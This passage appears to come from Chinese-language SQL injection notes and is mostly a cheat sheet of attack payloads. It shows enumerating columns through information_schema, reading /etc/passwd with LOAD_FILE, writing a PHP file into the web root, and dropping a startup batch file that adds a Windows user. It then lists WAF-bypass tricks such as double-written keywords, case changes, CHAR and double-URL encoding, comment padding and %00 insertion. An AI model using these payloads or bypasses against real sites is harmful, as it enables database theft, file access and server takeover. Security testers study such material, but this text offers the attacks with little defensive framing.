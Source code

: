    - 爆列名 payload：

   ```mysql
   union select 1, column_name, 3 from information_schema.columns where table_name='admin' limit 0,1%23
   ```

2. 文件读写

   - 读取关键文件

   ```mysql
   select LOADFILE('/etc/passwd');
   ```

   - 写入shell：

   ```mysql
   select '<?php phpinfo();?>' into dumpfile '/var/www/html/1.php'
   ```

   - mysql5.7之后，引入了secure-file-priv新特性来限制LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE()

3. 命令执行

   - 利用数据库对服务器写启动脚本：

   ```mysql
   union select 1,2,3,"net user cimer cimer /ad" into outfile 'C:/documents and settings/all users/start menu/programs/startup/add.bat'
   ```

### WAF绕过

- WAF：Web Application Firewall，web应用防护系统。

1. 双写关键字 &rarr; 针对WAF是用简单的非迭代的将select、or语句替换为空字符串。比如：`SEselectLECT` &rarr;replace&rarr; `SELECT`

2. 大小写绕过：应用简单的区分大小写的关键字匹配，比如php中的preg_match函数没有加/i参数

3. 编码绕过：

   1. ASCII。比如：

   ```mysql
   select * from admin where username=(CHAR(97)+CHAR(100)+CHAR(109)+CHAR(105)+CHAR(110))
   ```

   2. 其他：16进制、unicode编码、URL编码（开发程序员不知道url会自动解码一次，自己再写了url解码函数，我们可以将URL编码两次）

4. more trick：

   - `and` &rarr; `&&` ； `or` &rarr; `||` ；` select username from admin` &rarr; `select(username)from(admin)`、`select\**\username\**\from\**\admin` （%a0、%0a、%0d、%09、tab...）。

   - 科学记数法绕过：`where username=1e1union select`

   - `>`, `=`, `<` 被限制：`where pass in (1,2)`、`where id between 1 and 3`、`like`

   - mysql对%00不会截断：`se%00lect`

   - PS：SQL测试语法（测试字符 `'1'` 与字符 `a` 的大小）：`select '1' > 'a'`

